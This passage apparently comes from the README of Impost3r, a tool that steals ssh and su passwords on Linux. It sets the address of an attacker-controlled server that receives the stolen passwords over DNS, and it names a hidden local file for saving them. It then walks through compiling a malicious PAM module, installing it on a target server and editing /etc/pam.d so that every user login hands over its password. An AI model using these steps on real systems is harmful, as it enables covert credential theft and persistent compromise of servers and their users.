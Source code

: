 ```
\\But if the target server implanted in Impost3r strictly restricts the outbound dns request, please change the value of YOUR_DOMAIN to the domain name you purchased, such as ".example.com", and meanwhile configure the NS record of this domain name to be the DNS server address you control, run Fdns on this DNS server.Change the value of REMOTE_ADDRESS below to the default dns address of the target server implanted in Impost3r(like 192.168.0.1), also change REMOTE_PORT to the default dns service's listening port(port 53 in most cases).
# define MAX_RESEND 30 \\Set the maximum times that Impost3r will try to resends stealing result to attacker's server(This option is valid only when SSH_OR_BOTH is 0)
# define RESEND_INTERVAL 5 \\Set the interval of resending stealing result.(This option is valid only when SSH_OR_BOTH is 0)
# define REMOTE_ADDRESS "192.168.0.12" \\Set the malicious server ip address that you want to receive stealing result
# define REMOTE_PORT 53 \\Set the malicious server port

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.sshsucache" \\Set the result file location if you want to save the result on the server
```

- After the modification is completed, save and execute ```make''` in the current directory

- Get the compiled file ```impost3r.so```

- Upload(Compile as much as possible on the target server to prevent unexpected errors) the compiled ```impost3r.so``` to the target server under ```/lib/x86_64-linux-gnu/security``` folder.(Different machines may have different folder names)

- Enter ```/etc/pam.d```, and then there are two cases. If the selected mode is to steal only the ssh password, then you need to execute ```vi sshd``` and add  at the following statement at the end of the file.（Just for Ubuntu, since this file on other systems based on linux may different, so I recommend you to get clear about how these rules work and add the following statement at the proper position）

```
auth optional impost3r.so
account optional impost3r.so
```

- Save and exit, restart the sshd service ```service sshd restart```

- But if you choose to steal the ssh and su passwords together, you need to execute ```vi common-auth```, add the same statement, save and exit and restart the sshd service

- Attacker starts the dns server program on his server, waiting for a legitimate user to log on the target server via ```ssh``` or use ```su``` to switch users to get the passwords.

### Demo

<img src="https://user-images.githubusercontent.com/45198234/83846859-d7960c00-a73d-11ea-81f2-5ec5a912a28d.gif" width="1200" >

### Tips
